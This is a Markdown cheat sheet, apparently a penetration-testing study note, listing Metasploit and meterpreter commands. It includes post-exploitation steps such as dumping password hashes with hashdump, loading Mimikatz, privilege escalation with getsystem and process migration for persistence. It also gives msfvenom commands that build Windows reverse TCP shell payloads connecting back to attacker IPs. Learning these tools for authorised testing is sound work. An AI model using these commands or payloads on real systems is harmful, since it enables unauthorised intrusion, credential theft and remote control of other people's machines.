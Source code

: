# Metasploit Command Syntax

<p align="center"><img alt="Metasploit Logo" src="https://miro.medium.com/v2/resize:fit:1400/1*waFDh88WH0YeIK3xMP6TjA.png" width=500 /></p>

Metasploit or the Metasploit Framework is a tool that is used to develop and execute exploit code agains remote target machines. Since this tool is very large, a separate document for its commands seemed appropriate.

</br>

## Table of Contents

- [Main commands to use MetaSploit](#main-commands-to-use-metasploit)
- [Other usefull commands](#other-usefull-commands)
- [Metasploit Modules](#metasploit-modules)
- [MSFVenom Commands](#msfvenom-commands)
- [Database/workspaces](#databaseworkspaces)

> [!NOTE]
> Some of these commands can only be used after a (meterpreter) shell has been made to another machine. These will be marked with a 💲. Others must be used outside of these shells.

<br>

## Main commands to use MetaSploit

```
search                 > Look for a module to use
use                    > Load the specific module
options                > View any options you need to set
set <options>          > Set the specified option
run                    > Run the exploit
exploit                > Run the exploit
```

<br>

## Other usefull commands

#### 💲 Information gathering

```
getuid                 > Get the current user
getprivs               > Get the priveleges for the current user
sysinfo                > Get info on the system
```

#### 💲 Kiwi/Mimikatz can be loaded into the session

```
load kiwi              > help now shows more commands
```

#### 💲 Menu, go back to from session

```
background
```

#### 💲 Move/migrate to another process (for priveleges)

```
migrate -N <process name>
```

#### 💲 Passwords

```
hashdump                > Dumps all the hashes available on a computer when the required priveleges are met.
```

#### Payloads

```
show payloads           > When a module is selected it will list compatible payloads
set payload <id>        > Selects the listed payload with the corresponding number.
set payload <name>      > Selects the payload with the corresponding name.
```

#### 💲 Privelege escalataion (for Windows at least)

```
getsystem               > when in a meterpreter session
```

#### 💲 Quiting or closing a session

```
quit 				
```

#### Search exploits

```
use post/multi/recon/local_exploit_suggester        > Can be used to find any vulnerabilities on the system. Does need an active session.
```

#### Searching for modules

```
search <keyword 1> <kayword 2> ...
```

#### Sessions

```
sessions                > show all
sessions -i <id>        > select and go to session
sessions -u             > upgrade shel to meterpreter shell
sessions -k <id>        > kill selected session
```

#### 💲 Shell creation after exploiting

```
shell                             > 
```

#### Shell conversion to Meterpreter

```
post/multi/manage/shell_to_meterpreter          > Converts a regular shell to a meterpreter session
```

#### Show various possibilities (payloads/exploits etc.)

```
show payloads                      > show payloads
show exploits                      > show exploits
show -h                            > show help
```

<br>

## Metasploit Modules

Some usefull modules that can be used in Metasploit.

```
run post/windows/manage/migrate

> Run the migrate module that can be used to inject into another process to create persistence
```

<br>

##  MSFVenom Commands

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.18.78.136 LPORT=443 -b '\x0a\x0d\x00' -f c

> Creates a unstaged reverse TCP shell in c format, to be used on a 32-bit windows system.
> Attack host IP and port are also included. 


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe

> Creates an unstaged reverse TCP shell in exe format to be used on a 64-bit windows system.
> Attack host IP and port are also included as well as an output name.
```

🔰 msfvenom argument | ℹ️ Function
-- | --
**`-a`** | Specifies an architecture type of the machine the payload will be used
**`-p`** | Specifies the payload (type) to be used
**`--platform`** | Specifies the platform of the machine the payload will be used
**`-l / --list formats`** | Show all available formats
**`-l / --list payloads`** | Show all available payloads
**`-e`** | Specifies the encoding format
**`-f`** | Specifies the output format (extension)
**`-o`** | Specifies the output location
**`-b`** | A list of characters to avoid

<br>

## Database/workspaces

#### Outside of Metasploit

```
systemctl start postgresql      > Start postgreSQL used by Metasploit
sudo msfdb init                 > start Metasploit database
```

#### Inside metasploit

```
db_status                       > Check database status
```

#### Workspaces

```
workspace                       > List workspaces
workspace -a tryhackme          > Add workspace
workspace default               > Select workspace
```

```
set hosts -R                    > Setting an RHOSTS options as the one stored in the database
```



<!--- 

💲 ❕ ➡️

## TITLE

### Usefull documentation

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

### Related tools

🔰 Name | ℹ️ Description | 🔗 Link
-- | -- | --
**** |  | 

<br>

--->
